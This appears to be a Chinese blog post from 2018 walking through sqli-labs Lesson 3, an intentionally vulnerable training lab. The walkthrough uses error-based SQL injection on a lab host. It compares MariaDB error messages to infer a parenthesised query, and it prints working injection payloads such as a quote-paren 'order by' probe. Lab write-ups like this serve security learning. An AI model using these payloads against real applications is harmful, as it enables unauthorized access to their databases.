 ```yaml
---
title: sqli-labs lession-3 基于错误的GET单引号变形注入
date: 2018-09-19 20:02:15
tags:
categories: sql注入
---
```


# sqli-labs lession-3 (基于错误的GET单引号变形注入) #

---

## 登录界面 ##

![1](https://i.imgur.com/7J97H2J.png)

## 注入过程 ##

`http://10.60.250.214/less/Less-3/?id=1 and 1=2`

页面无变化,排除整型注入

![2](https://i.imgur.com/C7Q76OS.png)

`http://10.60.250.214/less/Less-3/?id=1'`

![3](https://i.imgur.com/550bpkp.png)

返回报错信息:

`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'') LIMIT 0,1' at line 1`

这条报错信息与Lesson1的报错信息对比

Lesson1:

`You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1`

发现现在这条报错信息多了一个`)`

应该是但引号的变形。猜测源码中SQL语句:

`$sql="SELECT * FROM users WHERE id=('$id') LIMIT 0,1";`

测试一下

`http://10.60.250.214/less/Less-3/?id=1%27)%20order%20by%20100%23`

![4](https://i.imgur.com/K8K2dSA.png)

成功！！！

剩下的操作与Lesson1和Lesson2没有什么不同了。

具体流程可以查看这里。

{% post_link sqli-labs-lession-1-基于错误的GET单引号字符型注入 点击查看Lesson-1 %}
